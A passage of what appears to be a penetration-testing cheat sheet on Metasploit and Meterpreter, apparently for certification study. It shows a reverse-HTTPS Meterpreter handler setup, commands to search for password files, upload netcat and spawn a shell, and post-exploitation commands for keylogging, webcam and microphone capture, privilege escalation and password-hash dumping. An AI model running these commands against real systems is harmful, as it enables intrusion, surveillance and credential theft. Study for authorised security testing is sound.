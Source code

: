 

-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell  
    
        `sysinfo`

    -   Get user id from Meterpreter Shell  
    
        `getuid`

    -   Search for a file  
    
        `search -f *pass*.txt`

    -   Upload a file  
    
        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    -   Download a file  
    
        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    -   Invoke a command shell from Meterpreter Shell  
    
        `shell`

    -   Exit the meterpreter shell  
    
        `exit`

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
    
        `payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        [*] Started HTTPS reverse handler on https://$ip:443/`

-   Building Your Own MSF Module

    -   `mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb  
        nano crossfire.rb`

-   Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)

    -   `download` Download a file or directory  
        `upload` Upload a file or directory  
        `portfwd` Forward a local port to a remote service  
        `route` View and modify the routing table  
        `keyscan_start` Start capturing keystrokes  
        `keyscan_stop` Stop capturing keystrokes  
        `screenshot` Grab a screenshot of the interactive desktop  
        `record_mic` Record audio from the default microphone for X seconds  
        `webcam_snap` Take a snapshot from the specified webcam  
        `getsystem` Attempt to elevate your privilege to that of local system.  
        `hashdump` Dumps the contents of the SAM database
